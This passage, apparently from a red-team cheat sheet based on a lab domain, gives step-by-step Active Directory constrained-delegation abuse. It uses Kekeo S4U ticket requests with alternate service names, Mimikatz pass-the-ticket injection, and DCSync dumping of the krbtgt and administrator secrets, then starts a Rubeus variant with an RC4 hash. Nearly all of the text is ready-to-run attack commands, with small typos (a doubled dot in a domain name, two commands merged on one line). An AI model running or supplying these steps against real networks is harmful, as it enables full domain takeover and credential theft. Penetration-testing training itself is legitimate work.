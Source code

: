 3. Using s4u from Kekeo (no SNAME validation) it is possible to ask for a TGS also for *time* and *ldap* services by running other two separate commands (putting both the base service and a single alternative one):
    
    ```
    # Kekeo
    kekeo# tgs::s4u /tgt:TGT_cyberlabadminsrv$@CYBERLAB.CYBERCORP.LOCAL_krbtgt~cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL.kirbi /user:Administrator@cyberlab.cybercorp.local /service:cifs/fileserver.cyberlab.cybercorp.local
    kekeo# tgs::s4u /tgt:TGT_cyberlabadminsrv$@CYBERLAB.CYBERCORP.LOCAL_krbtgt~cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL.kirbi /user:Administrator@cyberlab.cybercorp..local /service:cifs/fileserver.cyberlab.cybercorp.local|time/fileserver.cyberlab.cybercorp.local
    kekeo# tgs::s4u /tgt:TGT_cyberlabadminsrv$@CYBERLAB.CYBERCORP.LOCAL_krbtgt~cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL.kirbi /user:Administrator@cyberlab.cybercorp.local /service:cifs/fileserver.cyberlab.cybercorp.local|ldap/fileserver.cyberlab.cybercorp.local
    ```
    
4. Using mimikatz it is possible to inject all the generated TGS tickets (from the previous commands) into the session:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL_cifs~cyberlab-dc.cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL.kirbi"'
    Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL_time~cyberlab-dc.cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL_ALT.kirbi"'
    Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL_ldap~cyberlab-dc.cyberlab.cybercorp.local@CYBERLAB.CYBERCORP.LOCAL_ALT.kirbi"'
    ```
    
5. If we have a ticket for the LDAP service it is possible to perform a DCSync:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberlab\krbtgt"'Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberlab\administrator"'
    ```
    

The same procedure can also be performed by using `Rubeus`:

1. Using asktgt from Rubeus, we request a TGT as the abused account (in this case a machine account):
    
    ```powershell
    # Rubeus
    .\Rubeus.exe asktgt /user:cyberlab-adminsrv$ /domain:CYBERLAB.CYBERCORP.LOCAL /rc4:1fadb1b13edbc5a61cbdc389e6f34c67 /outfile:deleg.kirbi
    ```
    